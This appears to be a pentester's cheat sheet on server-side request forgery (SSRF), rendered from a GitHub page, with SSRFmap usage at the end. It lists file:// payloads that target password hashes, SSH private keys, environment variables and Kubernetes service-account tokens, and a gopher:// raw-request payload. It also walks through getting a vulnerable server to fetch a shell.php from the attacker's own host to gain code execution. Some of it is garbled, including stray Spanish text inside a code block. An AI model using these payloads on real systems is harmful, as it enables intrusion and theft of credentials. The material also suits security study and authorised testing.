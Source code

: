 **SSRF** (Server-Side Request Forgery) is a type of vulnerability where an attacker can manipulate a server to make requests to unintended internal or external systems. 

## Basic Example of SSRF

**Vulnerable functionality:**  
A web app accepts a user-supplied URL to fetch and display an image:

```http
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
``` 

**Exploitation example:**  
An attacker provides a URL pointing to an internal service:
```http
GET /fetch?url=http://localhost:8000/admin HTTP/1.1
``` 


## SSRF to LFI or RFI

You can abuse SSRF to access local files on the server if `file://` scheme is allowed.

**Examples:**
```bash
file:///etc/passwd  
file:///etc/shadow  
file:///etc/hosts  
file:///etc/hostname  
file:///etc/mysql/my.cnf  
file:///var/www/html/config.php  
file:///root/.bash_history  
file:///home/user/.ssh/id_rsa  
file:///root/.ssh/authorized_keys  
file:///proc/self/environ  
file:///proc/version  
file:///proc/cmdline  
file:///proc/self/status  
file:///proc/self/fd/1  
file:///proc/self/fd/2  
file:///proc/net/tcp  
file:///proc/net/udp  
file:///proc/net/fib_trie  
file:///proc/self/cgroup  
file:///sys/class/net/eth0/address  
file:///var/log/apache2/access.log  
file:///var/log/nginx/access.log  
file:///var/lib/docker/containers/<container_id>/config.v2.json  
file:///run/secrets/kubernetes.io/serviceaccount/token
``` 

You can also make the server request a file to an external host (Controlled by the attackant) and try to **save the response to a location** that you can later access from the web. For example, targeting a web-accessible uploads folder:
```bash
http://<attackant_ip>/output.txt -o /uploads/output.txt-> saved to /var/www/html/uploads/output.txt
```
Then try to access: `http://target/uploads/output.txt`

#### Gopher in SSRF  
The `gopher://` protocol lets you craft raw TCP requests via SSRF. It's useful for attacking services like Redis, HTTP, or internal APIs by manually building requests.
```bash
gopher://127.0.0.1:80/_GET /admin HTTP/1.1%0aHost: localhost%0a%0a
```
This sends a raw HTTP request to an internal admin panel.

## SSRF to RCE (Remote Code Execution)
If the target server allows file upload or execution, you can try to execute a reverse shell.

- Host your shell file:
```bash
python3 -m http.server 8000
``` 

- Force the vulnerable server to fetch it:

```bash
http://<LAB_IP>:8000/shell.php
``` 
- Use SSRF to send a request:
```bash
/upload?url=http://<your-ip>:8000/shell.php
``` 
- Then access `/uploads/shell.php` on the target.
```bash
file:///etc/passwd
da mas opciones
``` 



## SSRFmap
**ssrfmap.py** is a tool designed to automate the exploitation of SSRF vulnerabilities. It allows attackers or pentesters to utilize and manipulate input parameters that trigger server-side requests to perform various malicious activities, such as port scanning, service enumeration, and exploitation of other internal resources.
#### Installation 
```bash
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap
pip3 install -r requirements.txt
```
#### Configuration
The `request.txt` file should contain the full HTTP request that the web application makes when provided with a URL. This file might look like this:
```bash
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0
```
#### Port scanning
To scan ports on an internal IP address, you can use the following command:
- Parameters: 
	- `-r`: name of the file where the request has been saved.
	- `-p`: name of the potentially vulnerable parameter on the request.
	- `-m`: module that we want to execute, in this case portscan.
```bash
python3 ssrfmap.py -r <request> -p <vulnerable_parameter> -m portscan
```
#### Service enumeration
To enumerate services, you can use:
```bash
python3 ssrfmap.py -r request.txt --url "http://127.0.0.1:8000" --data
```